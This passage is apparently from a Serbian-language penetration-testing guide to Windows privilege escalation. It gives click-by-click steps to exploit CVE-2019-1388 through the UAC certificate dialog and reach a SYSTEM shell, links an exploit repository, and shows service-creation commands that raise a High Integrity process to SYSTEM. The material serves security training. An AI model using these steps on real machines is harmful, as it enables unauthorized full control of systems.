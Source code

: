 Da biste iskoristili ovu ranjivost, potrebno je izvršiti sledeće korake:

```
1) Right click on the HHUPD.EXE file and run it as Administrator.

2) When the UAC prompt appears, select "Show more details".

3) Click "Show publisher certificate information".

4) If the system is vulnerable, when clicking on the "Issued by" URL link, the default web browser may appear.

5) Wait for the site to load completely and select "Save as" to bring up an explorer.exe window.

6) In the address path of the explorer window, enter cmd.exe, powershell.exe or any other interactive process.

7) You now will have an "NT\AUTHORITY SYSTEM" command prompt.

8) Remember to cancel setup and the UAC prompt to return to your desktop.
```

Imate sve potrebne datoteke i informacije u sledećem GitHub repozitorijumu:

https://github.com/jas502n/CVE-2019-1388

## Od Administrator Medium do High Integrity Level / UAC Bypass

Pročitajte ovo da **saznate više o Integrity Levels**:

{% content-ref url="integrity-levels.md" %}
[integrity-levels.md](integrity-levels.md)
{% endcontent-ref %}

Zatim **pročitajte ovo da saznate više o UAC i UAC bypass-ovima**:

{% content-ref url="../authentication-credentials-uac-and-efs/uac-user-account-control.md" %}
[uac-user-account-control.md](../authentication-credentials-uac-and-efs/uac-user-account-control.md)
{% endcontent-ref %}

## **Od High Integrity do System**

### **Novi servis**

Ako već radite u High Integrity procesu, **prelazak na SYSTEM** može biti jednostavan samo **kreiranjem i izvršavanjem novog servisa**:

```
sc create newservicename binPath= "C:\windows\system32\notepad.exe"
sc start newservicename
```

### Uvek instaliraj uzdignuto
